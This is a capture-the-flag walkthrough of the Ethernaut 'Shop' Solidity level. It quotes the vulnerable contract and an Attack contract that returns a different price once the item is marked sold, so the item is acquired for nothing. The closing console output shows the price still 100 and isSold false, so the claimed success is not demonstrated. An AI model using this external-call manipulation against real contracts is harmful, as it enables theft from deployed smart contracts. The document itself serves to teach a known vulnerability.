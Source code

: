 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

Challenge's message:

> Сan you get the item from the shop for less than the price asked?

This is a simple Solidity smart contract representing a shop where items can be bought. In this contract, we have **price** and **isSold** variables. The price is a public variable that holds the price of the item in the shop, initialized to 100. Then, the isSold variable is a boolean type that checks if the item has been sold or not.

- `Buyer` : This interface represents a buyer of the shop. It contains a function `price()` that when implemented, should return the price the buyer is willing to pay for the item.

- `buy()` : This function allows a buyer to buy an item from the shop. The function first creates an instance of the Buyer interface with the address of the person who called this function. It then checks if the price the buyer is willing to pay is greater than or equal to the price of the item and if the item has not been sold yet. If both conditions are met, the item is marked as sold and the price of the item is updated to the price the buyer paid.


This contract is a simple demonstration of how a shop might function on the blockchain. It should be noted that this contract does not actually transfer any ether or tokens, it simply changes the state variables based on the logic in the `buy()` function.


# Subverting

In this part of the challenge, the only thing we must do is reduce the price of the item. For this reason, we should change the returns value of the `price()` function in the Buyer interface to override the `price()` function. Remember that, the interface's functions can be overrideable. So, we will override the function that returns the value **based on the value of isSold with ternary operators**. I think we set the goals. Let's move on into attack contract.

```solidity
pragma solidity ^0.8.0;

import './Shop.sol';


contract Attack is Buyer{

    Shop target;

    constructor(address _target){
        target = Shop(_target);
    }

    function price() external override view returns (uint){
        return target.isSold() ? 0:100;
    }

    function attack()external{
        target.buy();
    }
}
```

Firstly, it gets an instance of the contract. And then, in the override `price()` function, if the isSold variable's value is equal to true, it returns 0. If it is not, it returns 100. Thus, we will pass the conditions call by call. Finally, call the `buy()` with the attack function. Get the item for free!

Depoy . See in 

```shell
await contract.price()
i {negative: 0, words: Array(2), length: 1, red: null}
length
: 
1
negative
: 
0
red
: 
null
words
: 
(2) [100, empty]
[[Prototype]]
: 
Object
```

```shell
await contract.isSold()
false
```

Ethernaut's message:

> Contracts can manipulate data seen by other contracts in any way they want. It's unsafe to change the state based on external and untrusted contracts logic.


